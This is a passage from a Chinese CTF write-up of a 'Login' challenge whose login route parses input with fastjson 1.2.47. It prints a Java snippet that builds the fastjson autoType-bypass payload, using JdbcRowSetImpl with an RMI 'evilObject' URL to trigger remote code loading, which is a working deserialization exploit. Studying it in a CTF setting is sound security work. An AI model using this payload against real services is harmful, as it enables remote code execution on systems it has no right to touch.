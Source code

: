‍

# 案例分析

‍

## 湖南邀请赛 - Login

‍

tips: 本地是用的是 jdk8u65 起的

[![](assets/1708870136-18c87b0667b820d7d61ebc064404918f.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121103.png)​

明显`login`​路由这存在一个打`fastjson`​的入口，屏蔽了关键字，看依赖是`1.2.47`​的 fastjson

第一反应肯定是打以下的 payload

```plain
import com.alibaba.fastjson.JSON;

public class Fastjson6 {
    public static void main(String[] args) throws Exception{
        String payload = "{\n" +
                "    \"a\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    },\n" +
                "    \"b\":{\n" +
                "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "        \"dataSourceName\":\"rmi://127.0.0.1:1099/evilObject\",\n" +
                "        \"autoCommit\":true\n" +
                "    }\n" +
                "}";
        JSON.parse(payload);
    }
}
```

